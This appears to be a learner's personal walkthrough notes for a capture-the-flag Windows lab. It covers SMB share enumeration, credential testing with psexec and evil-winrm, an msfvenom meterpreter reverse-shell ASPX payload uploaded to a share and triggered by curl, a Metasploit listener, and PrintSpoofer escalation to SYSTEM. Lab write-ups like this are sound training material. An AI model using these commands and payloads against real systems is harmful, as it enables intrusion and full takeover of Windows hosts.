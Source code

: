 wsl
getend group | grep kali -> look at groups which are in kali
install docker - sudo apt install docker.io
sudo apt install podman - install podman
sudo visudo - sudoers
sudo usermod -aG nameofgroup nameofuser
(sudo usermod -aG docker mark)

1. did the nmap scan. found smb on 445 and RDP on 3389

2. enumerating SMB port
run smb client

[smbclient -L ip -p 445]
[locate .nse |grep smb-enum] - run these script using nmap scripts[nmap --script=]

after the enumerating we can find out that there is a share named nt4wrksv.  then we can log into it and see the content. 

[smbclient //ip/nt4wrksv] or [smbclient \\\\ip\\nt4wrksv]

we found password.txt in this share. its encoded using base64. lets be there later.

__ check whether users and passwords are valid __
use psexec.py

[python3 psexec.py 'bob:password@ip']

evil-winrm also can be used. but didn't work in this machine

[evil-winrm --ip ip --user username --password password]

3. run vulnerability scan using nmap script.

[nmap --script vuln -Pn -p ports ip] - -Pn - doesn't check whether ports are exist.

we found (ms17-010) remote code execution. 
using searchploit we can get eternalblue exploit. 

[searchsploit eternalblue]

lets mirror windows server 2016 exploit to current working dir.

[searchsploit -m ]


# first step

i went for this step. it seems easy. i created a revese shell using msfvenom and uploaded it to smb share and triggered it using web. 
creating the reverse shell. 
[msfvenom -l payloads | grep windows | grep reverse | grep shell ]

[msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options]

[msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx] - windows/x64/meterpreter/reverse_tcp also worked

also pentest.ws site can be used to create the same path to get the reverse shell

[ https://pentest.ws/tools/venom-builder ]

put the shell in shares. 
[smbclient //ip/sharename] then [put shell.aspx]

creating the listner 

[kali@kali:/data/vpn$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run]

triggering the shell.aspx

[curl http://ip:49663/sharename/shell.aspx]

then it will connect to the server. go to the bob desktop. there will be the user flag. 

[cd c:/users/bob/Desktop]


# Root priviledge 

first use shell command u idiot.

[shell]

now see the priviledges 

[whoami /priv]

Now that we have shell access we can use the whoami /priv command to check our user privileges. We see that we have SeImpersonate privileges, which can commonly be used to escalate using a potato attack, or with incognito if impersonation tokens exist. However, DCOM is disabled on this server which prevents potato attacks, and there are no tokens to impersonate.
(i don't know what this is)

There is a newer exploit that came about several months ago called [Printspoofer](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) that exploits a vulnerability in Windows where certain service accounts are required to run with elevated privileges utilizing the SeImpersonate privilege. We see that we are the iis apppool\defaultapppool service account user, which should allow us to elevate using the Printspoofer exploit.

upload printspoofer to the smb share. 

now go to this directory

[cd c:/intepub/wwwroot] now u can see the smb share in it. go to it. and run the exe file.

[PrintSpoofer -i -c cmd] - to gain root priviledges .

[whoami] - will show nt authority/system.

[cd c:/users/administrator/desktop/] there will be root.txt

[type root.txt] - will read it. cat command doesn't work


